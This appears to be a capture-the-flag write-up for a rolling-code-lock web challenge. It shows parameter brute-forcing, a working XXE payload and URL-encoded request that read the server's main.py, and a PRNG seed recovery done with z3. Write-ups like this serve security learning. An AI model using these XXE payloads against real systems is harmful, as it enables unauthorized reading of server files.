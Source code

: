 # Model E1337 - Rolling Code Lock
When we start the challenge we have a page with an input box that ask a code to unlock something.
## Flag 0
We start a dir search on the endpoint and we find the `/admin` endpoint, inspecting the source code we see:
```html
<body>
		<h1>Admin Panel</h1>
		<p>Lock location: <input type="text" name="location" value="Front door" disabled=""></p>
		<!-- We should be using get-config for this on the client side. -->
</body>
```
The hint is clear we have to see the `/get-config` endpoint, that give us and XML configuration file.
```xml
<body>
    <config>
        <location>Front door</location>
    </config>
</body>
```
I struggle a bit to understand how to proceed, but testing around I find that calling the endpoint `/set-config` gives back a Bad Request error.
So I try to brute force the params:
```batch
 arjun -u htp://xxx.xxx.xxx.xxx/xxxxx/set-config 
    _
   /_| _ '
  (  |/ /(//) v2.1.41
      _/

[*] Probing the target for stability
[*] Analysing HTTP response for anamolies
[*] Analysing HTTP response for potential parameter names
[*] Logicforcing the URL endpoint
[✓] name: data, factor: http code
```
Passing the data params seems to work, we have an XXE injection.
I try to understand the filesystem with many files and in the and I found the `main.py` in the same folder, and in the comment we have the first flag.
```xml
<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE foo [ <!ENTITY file SYSTEM "main.py" > ]><config><location>&file;</location></config>
```
Request urlencoded:
```
http://xx.xxx.xx.xxx/xxxxx/set-config?data=%3C%3Fxml%20version%3D%221.0%22%20encoding%3D%22UTF-8%22%3F%3E%3C%21DOCTYPE%20foo%20%5B%20%3C%21ENTITY%20file%20SYSTEM%20%22main.py%22%20%3E%20%5D%3E%3Cconfig%3E%3Clocation%3E%26file%3B%3C%2Flocation%3E%3C%2Fconfig%3E
```
## Flag 1
It's a flask server and we have an import to another file `rng.py` where we find how the generation of the random value works.
I try I bit to understand the logic behind the generation.
```python
def setup(seed):
        global state
        state = 0
        for i in range(16):
                cur = seed & 3
                seed >>= 2
                state = (state << 4) | ((state & 3) ^ cur)
                state |= cur << 2

def next(bits):
        global state

        ret = 0
        for i in range(bits):
                ret <<= 1
                ret |= state & 1
                state = (state << 1) ^ (state >> 61)
                state &= 0xFFFFFFFFFFFFFFFF
                state ^= 0xFFFFFFFFFFFFFFFF

                for j in range(0, 64, 4):
                        cur = (state >> j) & 0xF
                        cur = (cur >> 3) | ((cur >> 2) & 2) | ((cur << 3) & 8) | ((cur << 2) & 4)
                        state ^= cur << j

        return ret

setup((random.randrange(0x10000) << 16) | random.randrange(0x10000))
```


We have 32 bit seed and a 64 bit state that is used to generate the next pseudo-random value.
I decide to try with symbolic resolution with z3. 
After modifying a bit the code I start to produce 1 error values and use it to reconstruct the seed, but it's seems that it's not enought.
Restarting the challenge and trying with 2 values we get the flag.
All the code is in the `x.py` file.

